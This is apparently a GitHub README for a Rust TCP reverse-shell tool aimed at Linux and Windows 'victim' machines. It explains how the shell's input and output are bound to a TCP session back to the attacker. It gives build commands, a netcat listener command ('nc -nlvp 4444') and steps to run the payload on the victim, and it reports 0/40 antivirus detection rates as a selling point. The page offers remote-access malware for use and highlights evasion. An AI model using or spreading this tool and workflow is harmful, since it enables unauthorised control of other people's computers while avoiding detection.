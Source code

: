# RCO: TCP Reverse Shell

[![Custom badge](https://img.shields.io/endpoint?url=https%3A%2F%2Fraw.githubusercontent.com%2Fkmanc%2Fremote_code_oxidation%2Fmaster%2F.custom_shields%2Ftcp_reverse_shell.json)](https://github.com/kmanc/remote_code_oxidation/tree/master/tcp_reverse_shell)

Linux target               |  Windows target
:-------------------------:|:-------------------------:
![gif](https://user-images.githubusercontent.com/14863147/151044738-72dbec76-73b1-47c5-831a-2e995673b559.gif)  |  ![gif](https://user-images.githubusercontent.com/14863147/151058869-8e5e9f6e-3f7b-4a98-ab65-2ac5017a4e76.gif)


## How it works

The reverse shells for both Linux and Windows work by establishing a [Transmission Control Protocol (TCP) session](https://www.scottklement.com/rpg/socktut/overview.html) from the victim machine to the attacking machine. Then a Terminal (Linux) or Command Prompt (Windows) process starts with its [standard input](https://en.wikipedia.org/wiki/Standard_streams#Standard_input_(stdin)), [standard output](https://en.wikipedia.org/wiki/Standard_streams#Standard_output_(stdout)), and [standard error](https://en.wikipedia.org/wiki/Standard_streams#Standard_error_(stderr)) all assigned to the TCP session. This means that input commands and output results are read from and written to (respectively) the TCP stream.


## Using it

1. [Not shown in GIF] Open [the config file](https://github.com/kmanc/remote_code_oxidation/blob/master/rco_config/src/lib.rs) 
and change the IP address and port to match the IP address of your attacking machine and the port you will use for a listener respectively
2. [Not shown in GIF] Compile the executable

    #### For Linux targets
    ```commandline
    cargo build -p tcp_reverse_shell --release
    ```

    #### For Windows targets
    ```commandline
    cargo build --target x86_64-pc-windows-gnu -p tcp_reverse_shell --release
    ```
3. Start a netcat listener on the attacking machine on the same port you configured in step 1
    ```commandline
    nc -nlvp 4444
    ```
4. Execute the payload on the victim machine
5. Return to the listener and enter desired commands for the victim machine to run


## Detection rates

[Linux - 0 / 40](https://kleenscan.com/scan_result/386e7a12b38c22d32ccdef0503b80c3793453a42f3d79b410a0b0045638a8715)

![image](https://user-images.githubusercontent.com/14863147/151648466-26d1d573-1593-460a-9339-8355e35a7db9.png)

[Windows - 0 / 40](https://kleenscan.com/scan_result/4b373afdab36bb832b3748aadb92cba8c63dc8f2fdfd9af8a17d1737b364becc)

![image](https://user-images.githubusercontent.com/14863147/151648477-fa050479-0f14-4dc3-b8e1-eef71c0115e3.png)
